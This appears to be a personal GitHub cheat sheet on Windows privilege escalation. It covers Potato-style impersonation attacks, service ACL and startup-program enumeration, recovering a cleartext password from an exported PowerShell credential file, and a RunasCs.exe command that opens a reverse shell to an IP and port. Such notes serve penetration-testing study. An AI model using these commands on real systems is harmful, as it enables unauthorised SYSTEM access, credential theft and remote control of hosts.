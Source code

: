 ![image](https://github.com/user-attachments/assets/55b7ea1b-ab2b-4343-afb9-f2a187c4661c)
SeImpersonate and SeAssignPrimaryToken - JuicyPotato Escalation
PrintSpoofer and RoguePotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, PrintSpoofer and RoguePotato can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access. This blog post goes in-depth on the PrintSpoofer tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.


https://github.com/geeksniper/windows-privilege-escalation?tab=readme-ov-file#eop---impersonation-privileges

It is also worth searching for weak service ACLs in the Windows Registry. We can do this using accesschk.
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
Modifiable Registry Autorun Binary
Check Startup Programs
We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

*** general line of tought:*** 
1. what are the user privileges?
2. what services are running ? (how to enumerate services with usefull info)
   dll injfection
   unqoted service path
   overwrite service binary
   
4. is it install elevated
5. what are the schudled tasks.?
   writable executable files ?
   dependency writable ?
7. sensitive files readable ? 



# Techniques

## Password hunting (PsSession credentials restore) 
**Intresting technique: - Decrypt Credentials on the machine they where created**
<img width="738" height="201" alt="image" src="https://github.com/user-attachments/assets/80a68fe7-9345-46f8-8527-3bcbaafffb2e" />

Use: 

```
$cred = Import-CliXml -Path connection.xml 
```

To export the credential obejct and 

```
$cred.GetNetworkCredential().Password 
```
to read the full clear text password 

## Running in contecst of another user with RunCs.exe 

```
.\RunasCs.exe user pass cmd.exe -r IP:PORT
```

## SeTcbPrivilege - https://blog.palantir.com/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e?gi=90b131f043b3 

Using tcbpriv is done trough a poc - https://github.com/b4lisong/SeTcbPrivilege-Abuse 

Or use Full powers https://github.com/itm4n/FullPowers to Potato stile attacks. 
